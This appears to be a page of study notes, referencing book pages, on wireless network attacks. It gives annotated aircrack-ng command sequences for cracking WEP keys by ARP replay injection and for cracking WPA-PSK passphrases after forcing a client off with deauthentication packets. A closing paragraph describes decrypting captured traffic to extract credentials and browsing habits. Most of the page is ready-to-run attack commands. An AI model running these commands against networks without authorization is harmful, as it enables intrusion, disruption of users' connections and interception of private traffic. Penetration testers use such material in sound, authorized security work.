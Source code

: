 ```bash
airmon-ng start wlan0  # Enables monitor mode on wlan0, allowing raw packet capture; creates mon0 or wlan0mon
airodump-ng mon0  # Scans for wireless networks and displays SSID, BSSID, channel, and encryption type (WEP/WPA)
airodump-ng -c [channel] --bssid [target MAC] -w wepcrack mon0  
                   # Captures packets only from the specified WEP-encrypted access point on the given channel
                   # Saves the captured packets to "wepcrack-01.cap" for later cracking
aireplay-ng -3 -b [target MAC] -h [your MAC] mon0  
                   # Performs a packet replay attack to generate and inject ARP requests into the network
                   # This speeds up data packet collection, increasing IVs needed to crack WEP
aircrack-ng wepcrack-01.cap  # Analyzes captured packets and attempts to crack the WEP key using IVs in the capture file
```
## Cracking WPA-PSK Weak Passphrase (p85)
This technique captures the WPA/WPA2 four-way handshake during a client’s authentication and then performs an offline dictionary or brute-force attack to guess the passphrase. It is most effective when the network uses a weak or commonly used PSK and can be tested without further interaction with the access point. Ideal in environments where you can force a re-authentication via de-authentication attacks, it is a go-to method for evaluating the strength of wireless passphrases. Its success depends entirely on the quality of the wordlist and the weakness of the chosen password.

```bash
airmon-ng start wlan0                     # Enable monitor mode on wlan0 (creates mon0 or wlan0mon for packet sniffing)
airodump-ng mon0                          # Scan and display nearby wireless networks and clients using the monitor interface
airodump-ng --bssid [target MAC] -c [channel] -w wpacrack mon0  
                                          # Capture packets from a specific target network (by BSSID) on a specific channel
                                          # Save the capture to a file named "wpacrack-01.cap" for later cracking
aireplay-ng --deauth 10 -a [target MAC] -c [client MAC] mon0  
                                          # Send 10 deauthentication packets to disconnect the specified client from the AP
                                          # Forces the client to reconnect, capturing the WPA 4-way handshake
aircrack-ng -w /path/to/wordlist.txt -b [target MAC] wpacrack-01.cap  
                                          # Attempt to crack the captured WPA handshake using a wordlist attack
                                          # Tries each password in the wordlist against the handshake in the capture file
```
## Decrypting WEP and WPA Packets (p94)
Decrypting wireless packets allows an attacker to inspect the contents of traffic, once the encryption key has been recovered through cracking. This technique is used after a successful WEP or WPA handshake capture and crack to passively monitor or analyze all client and AP communications. It’s useful for post-exploitation surveillance, understanding network behavior, or extracting sensitive information. The attack is effective because it transforms otherwise unreadable packet data into intelligible network traffic, revealing everything from plaintext credentials to browsing habits.
